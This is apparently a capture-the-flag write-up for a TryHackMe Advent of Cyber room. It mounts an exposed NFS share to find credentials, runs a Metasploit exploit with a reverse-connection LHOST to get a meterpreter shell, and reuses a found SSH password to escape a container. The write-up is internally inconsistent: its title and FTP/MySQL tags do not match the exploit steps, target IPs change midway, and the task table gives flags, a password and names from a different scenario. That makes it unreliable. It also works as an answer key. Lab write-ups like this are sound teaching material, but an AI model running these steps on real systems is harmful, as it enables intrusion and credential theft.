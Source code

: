 # [Day 11] Elf Applications Writeup
### Tags: `#FTP #NFS #MySQL`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day11.png' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.244.242
```

![](imgs/ping.png)

2.) Lets run a nmap scan on the machine to enumerate all services on open ports.

```bash
nmap -A 10.10.244.242
```

![](imgs/nmap.png)

3.) Lets first take a look at the NFS service running on port 2049. We can enumerate all the shares using the showmount command.

```bash
showmount -e 10.10.244.242
```

![](imgs/showmount.png)

4.) We can mount the share to our local system by using the mount command and at that point we can browse the share.

```bash
sudo mount -t nfs 10.10.244.242:/opt /tmp/opt
```

![](imgs/mount.png)

5.) With the share mounted to the local system, we can go to the tmp directory that was created. There is a interesting file called creds.txt, lets see what we can find in there.

![](imgs/mountfiles.png)

6.) Once we are done with the share, we can unmount it from our local system by running the umount command.

![](imgs/umount.png)

7.) When using Metasploit, we need to set all the required options before trying to execute the exploit on the machine.

```bash
set RHOSTS 10.10.173.247

Set RPORT 80

set TARGETURI /showcase.action

set LHOST 10.13.37.142
```

![](imgs/setoptions.png)

8.) With all the required fields set within Metasploit, we can execute the exploit by running the command run.

![](imgs/run.png)

9.) Now that we have a meterpreter shell, we can drop into a standard shell by running the command shell. What we are trying to do is run a bash command to find any files on the machine that have flag1 within its name.

```bash
shell

find / 2>dev/null | grep -i "flag1"
```

![](imgs/flag1.png)

10.) Lets take a look at the / directory. Do you notice the .dockerenv file. This is a sign that we are currently isolated inside a active containter. Another sign is to run the ps aux command and take note of the number of processes (less processes means most likely a docker container).

![](imgs/docker.png)

11.) Now taking a look at the santa home directory, we see a file named ssh-creds.txt. 

![](imgs/sshcreds.png)

12.) Using the username:password combo found in the ssh-creds.txt file and with a open port 22 (ssh service), we can bypass the docker container and login directly to the machine using the santa user.

![](imgs/sshlogin.png)

13.) Checking the home directory for santa, we see two files naughty_list.txt and nice_list.txt.


```bash
cat -n naughty_list.txt
or
vim naughty_list.txt
:wq

cat -n nice_list.txt
or
vim nice_list.txt
:wq
```

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | Compromise the web server using Metasploit. What is flag1? | THM{3ad96bb13ec963a5ca4cb99302b37e12} |
| Task #2 | Now you've compromised the web server, get onto the main system. What is Santa's SSH password? | rudolphrednosedreindeer |
| Task #3 | Who is on line 148 of the naughty list? | Melisa Vanhoose |
| Task #4 | Who is on line 52 of the nice list? | Lindsey Gaffney |








